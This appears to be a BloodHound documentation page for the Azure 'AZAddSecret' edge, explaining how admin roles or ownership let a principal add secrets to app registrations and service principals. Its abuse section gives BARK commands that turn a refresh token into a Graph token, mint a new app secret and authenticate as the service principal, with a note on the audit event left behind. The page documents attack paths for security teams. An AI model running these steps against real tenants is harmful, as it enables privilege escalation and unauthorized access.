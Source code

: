```yaml
---
title: AZAddSecret
description: Azure provides several systems and mechanisms for granting control of securable objects within Entra ID, including tenant-scoped admin roles, object-scoped admin roles, explicit object ownership, and API permissions.
---
```


<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

When a principal has been granted “Cloud App Admin” or “App Admin” against the tenant, that principal gains the ability to add new secrets to all Service Principals and App Registrations. Additionally, a principal that has been granted “Cloud App Admin” or “App Admin” against, or explicit ownership of a Service Principal or App Registration gains the ability to add secrets to that particular object.

## Abuse Info

There are several ways to perform this abuse, depending on what sort of access you have to the credentials of the object that holds this privilege against the target object. If you have an interactive web browser session for the Azure portal, it is as simple as finding the target App in the portal and adding a new secret to the object using the “Certificates & secrets” tab. Service Principals do not have this tab in the Azure portal but you can add secrets to them with the MS Graph API. No matter what kind of control you have, you will be able to perform this abuse by using BARK’s New-AppRegSecret or New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT associated with the principal that has the privilege to add a new secret to your target application. There are several ways to acquire a JWT. For example, you may use BARK’s Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT by supplying a refresh token:

```bash
$MGToken = Get-GraphTokenWithRefreshToken -RefreshToken "0.ARwA6WgJJ9X2qk..." -TenantID "contoso.onmicrosoft.com"
```

Then use BARK’s New-AppRegSecret to add a new secret to the target application:

```bash
New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token
```
The output will contain the plain-text secret you just created for the target app:

```bash
New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token

Name              Value
----              -----
AppRegSecretValue odg8Q~...
AppRegAppId       4d31...
AppRegObjectId    d878...
```

With this plain text secret, you can now acquire tokens as the service principal associated with the app. You can easily do this with BARK’s Get-MSGraphToken function:

```bash
PS /Users/andyrobbins> $SPToken = Get-MSGraphToken `
-ClientID "4d31..." `
-ClientSecret "odg8Q~..." `
-TenantName "contoso.onmicrosoft.com"
PS /Users/andyrobbins> $SPToken.access_token
eyJ0eXAiOiJKV1QiLCJub...
```

Now you can use this JWT to perform actions against any other MS Graph endpoint as the service principal, continuing your attack path with the privileges of that service principal.

## Opsec Considerations

When you create a new secret for an App or Service Principal, Azure creates an event called “Update application - Certificates and secrets management”. This event describes who added the secret to which application or service principal.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/assign-roles-different-scopes](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/assign-roles-different-scopes)